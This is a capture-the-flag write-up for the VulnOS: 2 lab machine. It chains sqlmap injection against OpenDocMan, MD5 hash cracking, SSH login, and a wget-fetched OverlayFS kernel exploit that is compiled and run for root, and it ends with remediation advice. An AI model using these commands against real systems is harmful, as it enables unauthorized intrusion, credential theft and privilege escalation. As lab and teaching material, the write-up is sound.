



# VulnOS: 2 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.102 (host-only) |
| **Difficulty** | Easy–Medium |
| **OS** | Linux (Ubuntu 14.04) |
| **Root Flag** | /root/flag.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/vulnos-2,147/) |

## Attack Summary

nmap → /jabc web → /jabcd0cs OpenDocMan 1.2.7 → sqlmap SQLi → MD5 crack → SSH (webmin) → OverlayFS LPE (CVE-2015-1328) → root

## Methodology

1. Network discovery and port scan
2. Web enumeration via source code review
3. OpenDocMan SQLi with sqlmap
4. SSH access with cracked credentials
5. Kernel exploit (OverlayFS) for privilege escalation

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -p- -A 192.168.1.102
```

Open ports: 22 (SSH), 80 (HTTP), 6667 (IRC).


---

## Step 2: Web Enumeration

The homepage at port 80 contains nothing visible, but the page source links to `/jabc`.

Navigate to `/jabc` → Document tab → page source reveals `/jabcd0cs/` and a guest login hint.

```
http://192.168.1.102/jabcd0cs/
```

Login as `guest / guest`. The document manager shows OpenDocMan **v1.2.7** in the footer.



---

## Step 3: SQLi with sqlmap

Search for the exploit:

```bash
searchsploit OpenDocMan 1.2.7
```

Result: **EDB-32075** — SQL injection in `ajax_udf.php` via the `add_value` parameter.

Enumerate databases:

```bash
sqlmap -u 'http://192.168.1.102/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user' \
  --risk=3 --level=5 --dbs --threads=4 --batch
```

Dump the `jabcd0cs` database:

```bash
sqlmap -u 'http://192.168.1.102/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user' \
  -D jabcd0cs --risk=3 --level=5 --threads=4 --dump-all --batch
```

The `odm_user` table contains an MD5 hash. Crack it online or with hashcat:

```bash
hashcat -m 0 <hash_file> /usr/share/wordlists/rockyou.txt
```

Credentials recovered: **webmin : webmin1980**



---

## Step 4: SSH Access

```bash
ssh webmin@192.168.1.102
id
# uid=1000(webmin) ...
lsb_release -a
# Ubuntu 14.04.5 LTS
```

---

## Step 5: Privilege Escalation — OverlayFS (CVE-2015-1328)

Ubuntu 14.04 with an older kernel is vulnerable to the OverlayFS local privilege escalation.

```bash
searchsploit ubuntu 14.04
# EDB-37292: overlayfs local privilege escalation
```

On the attacker machine, serve the exploit:

```bash
python3 -m http.server 8080
```

On the target:

```bash
cd /tmp
wget http://192.168.1.108:8080/37292.c
gcc 37292.c -o shell
./shell
id
# uid=0(root)
```


```bash
cd /root
cat flag.txt
```



---

## Lessons Learned

1. **Source code review** reveals hidden paths (`/jabc`, `/jabcd0cs`) missed by directory brute-forcing
2. **OpenDocMan 1.2.7** has a known SQLi in `ajax_udf.php` — update to a patched version
3. **MD5 password storage** is insecure; use bcrypt or argon2
4. **Kernel 3.13 (Ubuntu 14.04)** is EOL and vulnerable to multiple LPEs

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| OpenDocMan 1.2.7 SQLi | Upgrade to a patched version; use prepared statements |
| MD5 password hashing | Use bcrypt/argon2 with sufficient cost factor |
| Outdated kernel (CVE-2015-1328) | Apply kernel updates; upgrade to supported OS |
| Guest account enabled | Disable unauthenticated access; enforce authentication |
